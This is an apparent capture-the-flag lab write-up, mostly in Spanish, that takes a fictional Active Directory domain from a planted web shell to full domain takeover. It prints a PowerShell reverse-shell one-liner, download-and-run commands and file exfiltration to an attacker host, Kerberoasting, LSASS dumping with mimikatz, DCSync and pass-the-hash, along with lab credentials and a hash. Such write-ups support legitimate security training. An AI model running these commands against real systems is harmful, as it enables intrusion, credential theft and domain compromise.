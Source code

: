 # AD Enumeration & Attacks - Skills Assessment Part I

## Scenario
A team member started an External Penetration Test and was moved to another urgent project before they could finish. The team member was able to find and exploit a file upload vulnerability after performing recon of the externally-facing web server. Before switching projects, our teammate left a password-protected web shell (with the credentials: `admin:My_W3bsH3ll_P@ssw0rd!`) in place for us to start from in the /uploads directory. As part of this assessment, our client, Inlanefreight, has authorized us to see how far we can take our foothold and is interested to see what types of high-risk issues exist within the AD environment. Leverage the web shell to gain an initial foothold in the internal network. Enumerate the Active Directory environment looking for flaws and misconfigurations to move laterally and ultimately achieve domain compromise.

Apply what you learned in this module to compromise the domain and answer the questions below to complete part I of the skills assessment.

## Solución
### Submit the contents of the flag.txt file on the administrator Desktop of the web server
- Accedemos `http://10.129.202.242/uploads/antak.aspx` con las credenciales dadas, obteniendo una webshell. Podemos encontrar la primera flag escribiendo lo siguiente: 
    ```bash
    type C:\Users\Administrator\Desktop\flag.txt
    ```

- Creamos una webshell
    - máquina víctima
        ```powershell
        $client = New-Object System.Net.Sockets.TCPClient('10.10.14.116',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
        ```
    - pwnbox
        ```bash
        rlwrap nc -nlvp 4444        
        ```

### Kerberoast an account with the SPN MSSQLSvc/SQL01.inlanefreight.local:1433 and submit the account name as your answer

- Cargamos las funciones del módulo `powerview` en memoria: 
    ```powershell
    IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.116:8000/powerview.ps1')
    ```

- Mostramos el `spn` y `samaccountname` de las cuentas susceptibles de kerberoasting
    ```Get-DomainUser * -spn | select serviceprincipalname,samaccountname               │pwdlastset            : 3/30/2022 2:14:52 AM
    serviceprincipalname                        samaccountname      
    --------------------                        --------------      
    adfsconnect/azure01.inlanefreight.local     azureconnect        
    backupjob/veam001.inlanefreight.local       backupjob           
    kadmin/changepw                             krbtgt              
    MSSQLSvc/DEVTEST.inlanefreight.local:1433   sqltest             
    MSSQLSvc/QA001.inlanefreight.local:1433     sqlqa               
    MSSQLSvc/SQL-DEV01.inlanefreight.local:1433 sqldev              
    MSSQLSvc/SQL01.inlanefreight.local:1433     svc_sql             
    MSSQLSvc/SQL02.inlanefreight.local:1433     sqlprod          
    ```
    Encontrando que el nombre que nos piden es `svc_sql`

- Generamos un ticket para este servicio
    ```powershell
    Get-DomainUser -Identity svc_sql | Get-DomainSPNTicket -Format Hashcat
    ```
- Guardamos el contenido del ticket con el nombre `ticket_svc_sql` y lo craqueamos offline del siguiente modo: 
    ```bash
    hashcat -m 13100 ticket_svc_sql /usr/share/wordlists/rockyou.txt
    ```
    obteniendo como contraseña del servicio `lucky7`

### Submit the contents of the flag.txt file on the Administrator desktop on MS01

- En este punto, dado que tenemos acceso al dominio, decidimos descargar `sharphound.exe` y volcar la información del dominio. Creamos un python server en nuestra pwnbox y en la máquina comprometida ejecutamos
    ```powershell
    Invoke-WebRequest http://10.10.14.116:8000/SharpHound.exe -OutFile sharphound.exe
    ```

- A continuación volcamos la información del domino
    ```powershell
    .\SharpHound.exe -c all, Group --zipfilename dominioInlaneFreight
    ```
- Creamos un python uploadserver en nuestra pwnbox y en la máquina comprometida escribimos lo siguiente para volcar el archivo
    ```powershell
    Invoke-FileUpload -Uri http://10.10.14.116:8000/upload -File C:\windows\system32\inetsrv\descargas\20250109022905_dominioInlaneFreight.zip
    ```
    lo que nos permite tener una representación visual del dominio

- Tratamos de conectarnos por RDP a MS01 del siguiente modo: 
    - Comprobamos con `nslookup ms01` que la dirección ip de ms01 es `172.16.6.50`
    - Redirigimos el tráfico que entre por el puerto `33389` de la máquina comprometida a MS01 coon `netsh`
        ```powershell
        netsh interface portproxy add v4tov4 listenport=33389 listenaddress=0.0.0.0 connectport=3389 connectaddress=172.16.6.50
        ``` 
    - Nos conectamos desde rdp con nuestra pwnbox del siguiente modo: 
        ```bash
        xfreerdp /v:$target /u:'inlanefreight\svc_sql' /p:'lucky7' /drive:Shared,/tmp /port:33389
        ```
        obteniendo la flag

### Find cleartext credentials for another domain user. Submit the username as your answer.

- Volcamos lsa.dmp del siguiente modo:
    ```powershell
    Get-Process lsass
    # obtenemos proceso 676
    rundll32 C:\windows\system32\comsvcs.dll, MiniDump 676 C:\lsass.dmp full
    ```

- Dado que tenemos una carpeta compartida con nuestro sistema, podemos mover el archivo y ejecutar `pypykatz.py` sobre el

- De esta manera no obtenemos credenciales en texto claro, por lo que intentamos extraer credenciales con `mimikatz`del siguiente modo
    ```powershell
    mimikatz.exe privilege::debug sekurlsa::logonpasswords > output.txt
    ```

- Aquí aparece la contraseña `Sup3rS3cur3D0m@inU2eR` para `tpetty`. Tenemos por lo tatno las siguientes credenciales:  `tpetty:Sup3rS3cur3D0m@inU2eR`

### What attack can this user perform?

- Comprobamos con bloodhound que este usuario tiene permisos de `DCSYnc`

###  Take over the domain and submit the contents of the flag.txt file on the Administrator Desktop on DC01

- Nos abrimos una nueva ps como si fueramos el usuario `tpetty`
    ```powershell
    runas /user:INLANEFREIGHT\tpetty powershell.exe 
    ```
- Utilizamos mimikatz nuevamente para hacer un volcado DCSync
    ```powershell
    ./mimikatz.exe
    lsadump::dcsync /domain:inlanefreight.local /user:inlanefreight\administrator
    ```

- Encontramos el siguiente hashNT: `27dedb1dab4d8545c6e1c66fba077da0`

- Hacemos un pth con este hash usando mimikatz: 
    ```powershell
     sekurlsa::pth /user:Administrator /domain:inlanefreight.local /ntlm:27dedb1dab4d8545c6e1c66fba077da0 /run:cmd.exe
    ```
- Y podemos acceder al contenido del dc del siguiente modo: 
    ```powershell
    type \\DC01\C$\Users\Administrator\Desktop\flag.txt
    ```